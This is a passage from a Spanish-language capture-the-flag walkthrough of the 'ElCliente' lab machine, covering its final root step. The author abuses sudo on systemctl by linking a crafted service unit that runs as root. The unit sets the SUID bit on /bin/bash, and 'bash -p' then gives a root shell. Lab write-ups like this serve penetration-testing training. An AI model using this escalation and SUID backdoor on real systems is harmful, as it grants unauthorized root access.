 Probémoslo, ejecutando el comando **id** y guardando el resultado en un archivo que ubicaremos en el directorio del **usuario kobe**:
```bash
kobe@TheHackersLabs-ElCliente:~$ TF=$(mktemp).service
kobe@TheHackersLabs-ElCliente:~$ echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "id > /home/kobe/id.txt"
[Install]
WantedBy=multi-user.target' > $TF
kobe@TheHackersLabs-ElCliente:~$ sudo systemctl link $TF
kobe@TheHackersLabs-ElCliente:~$ sudo systemctl enable --now $TF
```

Deberíamos tener ya el archivo con el output del comando **id**:
```bash
kobe@TheHackersLabs-ElCliente:~$ ls
id.txt	user.txt
kobe@TheHackersLabs-ElCliente:~$ cat id.txt 
uid=0(root) gid=0(root) groups=0(root)
```
Funcionó, podemos ejecutar comandos.

Lo que podemos hacer es, darle **permisos SUID** a la **Bash** para escalar privilegios.

Puedes comprobar qué permisos tiene ahora la **Bash**:
```bash
kobe@TheHackersLabs-ElCliente:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Modifiquemos el comando anterior para que le asigne **permisos SUID** a la **Bash**:
```bash
kobe@TheHackersLabs-ElCliente:~$ echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod u+s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
kobe@TheHackersLabs-ElCliente:~$ sudo systemctl link $TF
kobe@TheHackersLabs-ElCliente:~$ sudo systemctl enable --now $TF
```

Revisa de nuevo los permisos de la **Bash**:
```bash
kobe@TheHackersLabs-ElCliente:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```
Se cambiaron.

Ya podemos usar la **Bash** con privilegios:
```bash
kobe@TheHackersLabs-ElCliente:~$ bash -p
bash-5.2# whoami
root
```
Somos **Root**.

Obtengamos la última flag:
```bash
bash-5.2# cd /root
bash-5.2# ls
root.txt
bash-5.2# cat root.txt
...
```
Y con esto, terminamos la máquina.
